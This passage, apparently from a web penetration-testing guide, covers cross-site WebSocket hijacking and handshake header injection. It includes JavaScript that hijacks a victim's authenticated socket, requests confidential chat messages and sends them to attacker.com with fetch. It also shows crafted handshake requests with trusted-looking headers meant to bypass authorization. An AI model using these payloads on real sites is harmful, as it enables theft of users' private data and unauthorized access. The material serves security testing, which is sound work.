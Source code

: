           socket.onopen = function() {
            console.log('Connection established');
          };
          
          socket.onmessage = function(event) {
            fetch('https://attacker.com/steal?data=' + encodeURIComponent(event.data));
          };
        </script>
        ```
      - When victim visits the attacker's site, their browser establishes WebSocket connection
      - Victim's cookies are automatically included in handshake
      - Attacker can now receive victim's WebSocket messages
    
    - **Data theft via CSWSH**
      - Extract sensitive information from hijacked connection
      - Send authenticated commands as the victim
      - Example attack for chat application:
        ```javascript
        // Connection is established with victim's credentials
        socket.onopen = function() {
          // Request chat history
          socket.send(JSON.stringify({"action":"getMessages", "room":"confidential"}));
        };
        
        // Forward stolen data to attacker's server
        socket.onmessage = function(event) {
          fetch('https://attacker.com/collect?data=' + encodeURIComponent(event.data));
        };
        ```
  
  - **Header injection in WebSocket handshake**
    
    - **Testing for header manipulation**
      - Inject unexpected headers in handshake request
      - Target custom application-specific headers
      - Example modified handshake:
        ```http
        GET /socket HTTP/1.1
        Host: example.com
        Upgrade: websocket
        Connection: Upgrade
        X-Admin-Role: true
        X-Internal-Trusted: true
        Sec-WebSocket-Key: ...
        ```
    
    - **Exploiting custom header trust**
      - Identify headers that influence authorization decisions
      - Test headers like X-Forwarded-For, X-Original-IP, etc.
      - Example attack using X-Internal-Access header:
        ```http
        GET /socket HTTP/1.1
        Host: example.com
        Upgrade: websocket
        Connection: Upgrade
        X-Internal-Access: 1
        Sec-WebSocket-Key: ...
        ```
  